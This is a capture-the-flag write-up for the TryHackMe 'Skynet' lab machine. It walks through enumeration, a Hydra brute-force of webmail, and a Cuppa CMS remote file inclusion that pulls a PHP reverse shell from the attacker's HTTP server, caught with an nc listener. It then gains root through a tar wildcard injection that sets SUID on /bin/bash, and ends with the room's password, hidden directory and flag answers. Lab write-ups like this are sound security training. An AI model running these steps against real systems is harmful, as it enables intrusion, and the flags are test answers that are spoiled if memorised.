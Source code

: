 # [Skynet](https://tryhackme.com/r/room/skynet)

![Skynet](./images/Skynet.png)

[Skynet](https://tryhackme.com/r/room/skynet) is listed as an easy room. A vulnerable Terminator themed Linux machine. An overview of what we’ll be using is listed here:

* Nmap
* Gobuster
* enum4linux
* Hydra
* Searchsploit
* Reverse Shell

![IP](./images/IP.png)

## Task 1 - Deploy and compromise the vulnerable machine!

![logo](./images/logo.png)

Are you able to compromise this Terminator themed machine?

![blog](./images/blog.png)

You can follow our official walkthrough for this challenge on [our blog](https://blog.tryhackme.com/skynet-writeup/).

### Enumeration & Exploit

* Port scan with **Nmap**

	```
	nmap -sC -sV $IP -oN nmap-scan
	```

	![nmap](./images/nmap.png)

* Directory scan with **Gobuster**

	```
	gobuster dir -u $IP -w /usr/share/wordlists/dirb/big.txt -t50 | tee gobuster-default
	```

	![gobuster](./images/gobuster.png)

* Enumeration SMB with **enum4linux**
	
	```
	enum4linux $IP
	```

* Connect to smbclient

	```
	smbclient //$IP/anonymous
	ls
	```

	![login](./images/login.png)

* Download and open `attention.txt` file

	![attention](./images/attention.png)

* Change to logs directory and download log file

	![logs](./images/logs.png)

* Brute force login with **Hydra**

	```
	hydra -l milesdyson -P log1.txt $IP http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^:incorrect"
	```

	![hydra](./images/hydra.png)

* Login to webmail with our credential

	![webmail](./images/webmail.png)

* Open email `Samba Reset Password` & get the password smb

	![password](./images/password.png)

* Connect to smbclient with `milesdyson` credential

	```
	smbclient -U milesdyson //$IP/milesdyson
	```

	![smbclient](./images/smbclient.png)

* Download `importart.txt` on noted folder and view the file

	![important](./images/important.png)

* Directory scan on a scret page with **Gobuster**

	```
	gobuster dir -u $IP/45kra24zxs28v3yd -w /usr/share/wordlists/dirb/common.txt -t50 | tee gobuster-secret
	```

	![secret-page](./images/secret-page.png)

* Open the webpage `http://10.10.33.100/45kra24zxs28v3yd/administrator/`

	![web-cuppa](./images/web-cuppa.png)

* Searchsploit for `cuppa`

	![searchsploit](./images/searchsploit.png)

* Download `searchsploit` file & Read the file

	```
	searchsploit -m 25971
	```

	![download](./images/download.png)

	![payload](./images/payload.png)

* Open `http://revshells.com` and create PHP reverse shell with our machine IP and Port
	
	![revshells](./images/revshells.png)

* Start Listener on attacker machine

	```
	nc -lvnp 8888
	```

* Start HTTP server to in the folder `revshell.exe`

	```
	python3 -m http.server
	```

	![http.server](./images/http.server.png)

* Request `revshell.exe` link to get reverse shell

	```
	http://10.10.237.99/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.4.60.166:8000/revshell.php
	```

	![web-access](./images/web-access.png)

	![revshells.download](./images/revshells.download.png)

	![get-shell](./images/get-shell.png)

* Spawn a shell with python

	```
	python -c 'import pty;pty.spawn("/bin/bash")'
	```

	![python-spawn](./images/python-spawn.png)

* Get the `user.txt`

	![user-txt](./images/user-txt.png)

* Now let’s see what we have in miles’ home directory

	![backups](./images/backups.png)

* There is a backup script (backup.sh) that compresses the entire /var/www/html directory with tar and saves the archive to miles’ home directory. The script is executed by root every minute, we can see in crontab

	![crontab](./images/crontab.png)

* We can perfom a wildcard injectioncan to execute a privileged shell with tar executed by root as follows

	```
	cd /var/www/html
	printf '#!/bin/bash\nchmod +s /bin/bash' > shell
	echo "" > "--checkpoint-action=exec=sh shell"
	echo "" >> --checkpoint=1
	```

	![privileged](./images/privileged.png)

* Wait for 1 minute and executed `/bin/bash -p` and get a root shell

	![root](./images/root.png)

* Get the `root.txt`

	![root-txt](./images/root-txt.png)

### Answer the questions below

* What is Miles password for his emails?

	`cyborg007haloterminator`

	![hydra](./images/hydra.png)

* What is the hidden directory?

	`/45kra24zxs28v3yd`

	![important](./images/important.png)

* What is the vulnerability called when you can include a remote file for malicious purposes?

	`Remote File Inclusion`

	![searchsploit](./images/searchsploit.png)

* What is the user flag?

	`7ce5c2109a40f958099283600a9ae807`

	![user-txt](./images/user-txt.png)

* What is the root flag?

	`3f0372db24753accc7179a282cd6a949`

	![root-txt](./images/root-txt.png)


